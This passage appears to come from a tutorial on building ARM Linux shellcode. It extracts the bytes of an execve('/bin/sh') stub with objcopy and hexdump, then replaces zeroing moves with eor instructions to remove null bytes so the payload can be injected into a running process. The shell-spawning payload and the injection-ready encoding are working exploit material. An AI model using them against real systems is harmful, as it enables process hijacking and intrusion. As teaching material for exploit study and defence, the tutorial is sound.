 
We can use another GNU utility [objcopy(1)][objcopy] to extract just these instructions.

    # objcopy -O binary shell.o shell.bin

And with [hexdump(1)][hexdump] look at the file

    # hexdump -C shell.bin
    00000000  0c 00 8f e2 00 10 a0 e3  00 20 a0 e3 0b 70 a0 e3  |......... ...p..|
    00000010  01 00 00 ef 2f 62 69 6e  2f 73 68 00              |..../bin/sh.|
    0000001c


Because of the way we will be inserting our code into a running process, the **0x00** bytes are going to cause problems.

### Replacing Mov Zero instructions

There are some simple alternatives to loading a zero value into a register that don't look like this

    mov rN, #0

We could subtract a register from itself

    sub rN, rN, rN

or we could XOR a register with itself

    eor rN, rN, rN

Either of those instructions end up leaving zero in **rN** which is all we want.

So now are assembly **shell.s** looks like this

    .text
    .global _start

    _start:
        adr r0, _string
        eor r1, r1, r1
        eor r2, r2, r2
        mov r7, #11
        svc #1

    _string:
    .asciz  "/bin/sh"

And the machine code like this

    $ as shell.s -o shell.o
    $ objdump -d shell.o

    shell.o:     file format elf32-littlearm


    Disassembly of section .text:


[objcopy]: http://man7.org/linux/man-pages/man1/objcopy.1.html
[hexdump]: http://man7.org/linux/man-pages/man1/hexdump.1.html
[readelf]: http://www.man7.org/linux/man-pages/man1/readelf.1.html
[ld]: http://man7.org/linux/man-pages/man1/ld.1.html
[execstack]: http://man7.org/linux/man-pages/man8/execstack.8.html
